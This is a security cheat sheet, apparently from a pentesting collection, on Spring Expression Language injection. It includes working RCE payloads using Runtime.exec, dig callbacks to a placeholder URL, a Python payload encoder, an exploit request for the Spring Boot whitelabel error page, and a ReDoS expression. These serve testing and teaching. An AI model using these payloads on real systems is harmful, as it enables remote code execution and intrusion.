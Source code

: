 # Spring Expression Language (SpEL) overview

The Spring Expression Language (SpEL for short) is a powerful expression language that supports querying and manipulating an object graph at runtime.

{% embed url="https://docs.spring.io/spring-framework/docs/3.2.x/spring-framework-reference/html/expressions.html" %}

## Expression evaluation using Spring's expression interface

The following code introduces the SpEL API to evaluate the literal string expression `Hello World!`:

```java
ExpressionParser parser = new SpelExpressionParser();
Expression exp = parser.parseExpression("'Hello World'.concat('!')");
String message = (String) exp.getValue();
```

The value of the `message` variable is simply `Hello World!`.

## The EvaluationContext interface

The interface [EvaluationContext](https://docs.spring.io/spring-framework/docs/6.0.0-SNAPSHOT/javadoc-api/org/springframework/expression/EvaluationContext.html) is used when evaluating an expression to resolve properties, methods, fields, and to help perform type conversion. There are two main out-of-the-box implementations:

- [StandardEvaluationContext](https://docs.spring.io/spring-framework/docs/6.0.0-SNAPSHOT/javadoc-api/org/springframework/expression/spel/support/StandardEvaluationContext.html). A powerful and highly configurable `EvaluationContext` implementation. This context uses standard implementations of all applicable strategies, based on reflection to resolve properties, methods and fields.
- [SimpleEvaluationContext](https://docs.spring.io/spring-framework/docs/6.0.0-SNAPSHOT/javadoc-api/org/springframework/expression/spel/support/SimpleEvaluationContext.html). A basic implementation of `EvaluationContext` that focuses on a subset of essential SpEL features and customization options, targeting simple condition evaluation and in particular data binding scenarios.

```java
StandardEvaluationContext standardContext = new StandardEvaluationContext();
EvaluationContext simpleContext = SimpleEvaluationContext.forReadOnlyDataBinding ().build();
Expression exp = parser.parseExpression("T(java.lang.Runtime).getRuntime().exec('id')");
// execute 'id' command (standard context is used by default)
exp.getValue();
// execute 'id' command
exp.getValue(standardContext);
// receive error message
exp.getValue(simpleContext);
```

## Expression support for defining bean definitions

SpEL expressions can be used with XML or annotation based configuration metadata for defining BeanDefinitions. In both cases the syntax to define the expression is of the form `#{ <expression string> }`.

### XML based configuration

You can set a property or constructor-arg value using expressions.

```xml
<bean id="numberGuess" class="org.spring.samples.NumberGuess">
    <property name="randomNumber" value="#{ T(java.lang.Math).random() * 100.0 }"/>
    <property name="defaultLocale" value="#{ systemProperties['user.region'] }"/>
    <!-- other properties -->
</bean>
```

### Annotation-based configuration

The `@Value` annotation can be placed on fields, methods and method/constructor parameters to specify a default value.

```java
public static class FieldValueTestBean {
  @Value("#{ systemProperties['user.region'] }")
  private String defaultLocale;

  public void setDefaultLocale(String defaultLocale)
  {
    this.defaultLocale = defaultLocale;
  }

  public String getDefaultLocale()
  {
    return this.defaultLocale;
  }
}
```

## Language reference

{% embed url="https://docs.spring.io/spring-framework/docs/3.2.x/spring-framework-reference/html/expressions.html#expressions-language-ref" %}

# SpEL Injection

SpEL injection occurs when user controlled data is passed directly to the SpEL expression parser. For instance, the following method uses the standard context to evaluate SpEL expression:

```java
private static final SpelExpressionParser PARSER = new SpelExpressionParser();
private static final StandardEvaluationContext CONTEXT = new StandardEvaluationContext();

@PostMapping(path = "/")
public void method(@RequestBody String path, @RequestBody String value) {
    Expression expression = PARSER.parseExpression(path);
    expression.setValue(CONTEXT, value);
    // ...
}
```

As a result, you can gain code execution by sending the following `POST` request:

```http
POST / HTTP/1.1
Host: vulnerable-website.com
...

{"path":"T(java.lang.Runtime).getRuntime().exec('touch executed').x", "value":"executed"}
```

If you have access to a source code, try to search for vulnerable code using the following keywords:

- `SpelExpressionParser`, `EvaluationContext`, `parseExpression`, `@Value("#{ <expression string> }")`
- `#{ <expression string> }`, `${<property>}`, `T(<javaclass>)`

If a source code is not available, it is worth checking the `metrics` and `beans` endpoints provided by the Spring Boot actuators. These endpoints can expand the list of available beans and the parameters they accept.

{% embed url="https://0xn3va.gitbook.io/cheat-sheets/framework/spring/spring-boot-actuators" %}

Additionally, try to use expressions in different elements of the service:

- Parameter names and values:
    - `variable[<expression string>]=123`
    - `variable=123&<expression string>=123`
    - `{"<expression string>":"123"}`
    - `{"variable":"<expression string>"}`
- HTTP headers:
    - `Cookie: cookie_name=<expression string>`
    - `Cookie: <expression string>=cookie_value`
    - `Private-Token: <expression string>`
- etc.

You can use the following payloads as the expression string:

```java
${1+3}
T(java.lang.Runtime).getRuntime().exec("dig <URL>")
#this.getClass().forName('java.lang.Runtime').getRuntime().exec('dig <URL>')
new java.lang.ProcessBuilder({'dig <URL>'}).start()
${user.name}
```

# Spring boot whitelabel error page RCE

This vulnerability requires the following conditions:

- Spring Boot version `1.1.0 - 1.1.12`, `1.2.0 - 1.2.7`, `1.3.0`
- There is at least one interface that triggers the default whitelabel error page in Spring Boot

Check the next Spring Boot application: [LandGrey/springboot-spel-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-spel-rce). If you send a request to `/article?id=hop`, the application will return a whitelabel error with code `500`. However, if you send a request to `/article?id=${7*7}`, the application returns an error page with the calculated value `49`. It happens because:

1. Spring Boot processes URL parameters in errors with the `org.springframework.util.PropertyPlaceholderHelper` class
2. `PropertyPlaceholderHelper.parseStringValue` method parses URL parameters
3. Content enclosed in `${}` will be parsed and executed as a SpEL expression by the `resolvePlaceholder` method of `org.springframework.boot.autoconfigure.web.ErrorMvcAutoConfiguration` class

As a result, it leads to RCE and you can execute arbitrary commands using the following steps:

1. Prepare the payload with the next python scrypt (this sample prepares a payload that executes `open -a Calculator` command):

    ```python
    cmd = 'open -a Calculator'

    h = ''
    for x in cmd:
        h += hex(ord(x)) + ','
    
    payload = h.rstrip(',')

    print('${T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{' + payload + '}))}')
    ```

2. Send the payload within the `id` parameter:

    ```http
    /article?id=${T(java.lang.Runtime).getRuntime().exec(new%20String(new%20byte[]{0x6f,0x70,0x65,0x6e,0x20,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))}
    ```

3. `open -a Calculator` will be executed

References:
- [Spring Boot Vulnerability Exploit Check List: whitelabel error page SpEL RCE](https://github.com/LandGrey/SpringBootVulExploit#0x01whitelabel-error-page-spel-rce)

# SimpleEvaluationContext ReDoS

The `SimpleEvaluationContext` context prevents arbitrary code executing and writes a error message. However, you still can exploit the ReDoS attack.

```java
EvaluationContext simpleContext = SimpleEvaluationContext.forReadOnlyDataBinding ().build();
Expression exp = parser.parseExpression("'aaaaaaaaaaaaaaaaaaaaaaaa!'.matches('^(a+)+$')");
// ReDoS
exp.getValue(simpleContext);
```

# References

- [Spring Framework Docs: Spring Expression Language (SpEL)](https://docs.spring.io/spring-framework/docs/3.2.x/spring-framework-reference/html/expressions.html)
- [SpEL Injection (Russia)](https://habr.com/ru/company/dsec/blog/433034/)
